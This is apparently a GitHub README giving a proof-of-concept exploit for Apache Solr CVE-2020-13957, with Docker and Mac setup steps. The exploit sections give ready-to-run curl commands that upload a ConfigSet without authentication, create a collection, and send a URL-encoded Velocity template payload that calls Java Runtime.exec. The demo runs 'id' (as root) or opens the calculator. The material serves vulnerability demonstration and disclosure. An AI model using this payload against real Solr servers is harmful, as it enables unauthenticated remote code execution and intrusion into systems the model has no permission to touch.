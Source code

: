 # Apache Solr RCE CVE-2020-13957

**Docker Demo**

![docker-demo](https://user-images.githubusercontent.com/56715563/100495824-8cabfd00-3192-11eb-9874-960e3c0839fb.gif)

**Mac Demo**

![mac-demo](https://user-images.githubusercontent.com/56715563/100495858-d3015c00-3192-11eb-8813-46f94fa4f9c4.gif)

## NVD CVE-2020-13957 Description

NVD [CVE-2020-13957](https://nvd.nist.gov/vuln/detail/CVE-2020-13957)

```
Apache Solr versions 6.6.0 to 6.6.6, 7.0.0 to 7.7.3 and 8.0.0 to 8.6.2 prevents some features considered dangerous (which could be used for remote code execution) to be configured in a ConfigSet that's uploaded via API without authentication/authorization. The checks in place to prevent such features can be circumvented by using a combination of UPLOAD/CREATE actions.
```

## Docker

### Set up PoC environment

**1. Build an image from a Dockerfile**

```
$ docker build -t cve-2020-13957 .
```

**2. Run /bin/bash in a new container**

```
$ docker run --rm -p 8983:8983 --name cve-2020-13957 -it cve-2020-13957 /bin/bash
```

**3. Start Apache Solr Cloud in the container**

```
$ ./solr start -e cloud -noprompt -force
```

### Exploit

**1. Upload a ConfigSet**

Apache Solr Guide [Upload a ConfigSet](https://lucene.apache.org/solr/guide/8_2/configsets-api.html#configsets-api)

```
$ curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfigset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=myConfigSet"
```

**2. Create a Collection**

Apache Solr Guide [Create a Collection](https://lucene.apache.org/solr/guide/8_2/collection-management.html#create)

```
$ curl "http://localhost:8983/solr/admin/collections?action=CREATE&name=newCollection&numShards=2&replicationFactor=1&wt=xml&collection.configName=myConfigSet"
```

**3. Exec Id Command**

```
$ curl "http://localhost:8983/solr/newCollection/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set(%24x%3d%27%27)+%23set(%24rt%3d%24x.class.forName(%27java.lang.Runtime%27))+%23set(%24chr%3d%24x.class.forName(%27java.lang.Character%27))+%23set(%24str%3d%24x.class.forName(%27java.lang.String%27))+%23set(%24ex%3d%24rt.getRuntime().exec(%27id%27))+%24ex.waitFor()+%23set(%24out%3d%24ex.getInputStream())+%23foreach(%24i+in+%5b1..%24out.available()%5d)%24str.valueOf(%24chr.toChars(%24out.read()))%23end"
```

**Output**

```
     0  uid=0(root) gid=0(root) groups=0(root)
```

## Mac

### Set up PoC environment

**1. Download Apache Solr**

```
$ curl -OL https://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.tgz
```

**2. Unzip**

```
$ tar -xzvf solr-8.2.0.tgz
```

**3. Start Apache Solr Cloud**

```
$ solr-8.2.0/bin/solr start -e cloud -noprompt -force
```

### Exploit

**1. Upload a ConfigSet**

Apache Solr Guide [Upload a ConfigSet](https://lucene.apache.org/solr/guide/8_2/configsets-api.html#configsets-api)

```
$ curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfigset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=myConfigSet"
```

**2. Create a Collection**

Apache Solr Guide [Create a Collection](https://lucene.apache.org/solr/guide/8_2/collection-management.html#create)

```
$ curl "http://localhost:8983/solr/admin/collections?action=CREATE&name=newCollection&numShards=2&replicationFactor=1&wt=xml&collection.configName=myConfigSet"
```

**3. Open Calc**

```
$ curl "http://localhost:8983/solr/newCollection/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set(%24x%3d%27%27)+%23set(%24rt%3d%24x.class.forName(%27java.lang.Runtime%27))+%23set(%24chr%3d%24x.class.forName(%27java.lang.Character%27))+%23set(%24str%3d%24x.class.forName(%27java.lang.String%27))+%23set(%24ex%3d%24rt.getRuntime().exec(%27open+-a+calculator%27))+%24ex.waitFor()+%23set(%24out%3d%24ex.getInputStream())+%23foreach(%24i+in+%5b1..%24out.available()%5d)%24str.valueOf(%24chr.toChars(%24out.read()))%23end"
```

## References

- https://github.com/Imanfeng/Apache-Solr-RCE#cve-2020-13957
